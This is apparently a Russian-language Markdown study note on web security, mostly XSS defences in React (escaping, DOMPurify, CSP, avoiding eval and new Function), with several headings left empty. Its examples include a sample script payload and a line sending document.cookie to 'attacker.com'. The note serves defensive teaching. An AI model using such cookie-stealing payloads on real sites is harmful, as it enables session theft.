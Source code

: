 # ClickJacking

# XSS (Cross Site Scripting)

XSS — это внедрение вредоносного кода на страницы атакуемого сервиса.

- Reflected XSS = Отражённый, потому что его действие сразу же отражается на поведении страницы.
- Stored XSS = "хранимый", это вредоносный код, который каким-то образом сохранился в атакуемом сервисе. Он мог быть записан в базу, сохранён на диске в виде текста, изображения, мог сохраниться в оперативной памяти сервера.
- Injection = самый частый пример - SQL-инъекции
- Key logger = разновидность XSS. Представим, что злоумышленники внедрили код, который отправляет все данные, набранные с клавиатуры

SQL-инъекции
Их суть заключается в доступе к данным атакуемого сервиса или их изменению. Ну или удалению, всякое бывает.

## Защита от XSS

**1. Никогда не вставляй HTML напрямую**

не использовать dangerouslySetInnerHTML, если только не уверен в источнике и не очистил HTML.

---

**2. Экранирование пользовательского ввода**

В React JSX по умолчанию все переменные безопасны:

```js
const userInput = '<script>alert("XSS")</script>';

<p>{userInput}</p>; // Безопасно: React экранирует строку
```

Если ты рендеришь HTML вручную (например, в innerHTML), обязательно очищай ввод:

```js
import DOMPurify from "dompurify";

const safeHtml = DOMPurify.sanitize(userInput);
<div dangerouslySetInnerHTML={{ __html: safeHtml }} />;
```

---

**3. Content Security Policy (CSP)**
CSP — это заголовок, который блокирует внедрение внешних скриптов, инлайнового JS и т. д.
Настраивается на сервере, пример:

```js
Content-Security-Policy: default-src 'self'; script-src 'self'
```

---

**4. Избегай инлайновых обработчиков**

```js
<!-- Уязвимо -->
<button onclick="alert(document.cookie)">Click</button>
```

Используй JS-функции, а не строки HTML:

```js
<button onClick={() => alert("safe")}>Click</button>
```

---

**5. Валидация и фильтрация данных на клиенте.**

Не пускай в форму всё подряд: даже на клиенте можно ограничивать ввод.
Например, использовать input[type="email"], маски, валидацию.
Но клиентская валидация = удобство, а не защита — всё равно проверяй данные на сервере.

**6. Избегать eval, new Function.**
new Function(...) в JavaScript — это динамический способ выполнения кода, очень похожий на eval(). Именно поэтому он опасен и может привести к XSS.

Ты буквально создаешь новую функцию из строки кода, передавая тело функции в виде строки:

```js
const fn = new Function("a", "b", "return a + b");
console.log(fn(2, 3)); // 5
```

Как пример того, что могут закинуть в приложение:

```js
const code = getUserInput(); // "return fetch('http://attacker.com?cookie=' + document.cookie)"
const run = new Function(code); // уязвимо
run(); // злоумышленник получает куки
```

# CSRF (Cross Site Request Forgery)

# Man In The Middle (MITM)

# Denial of Service

# HTTP Request Smuggling
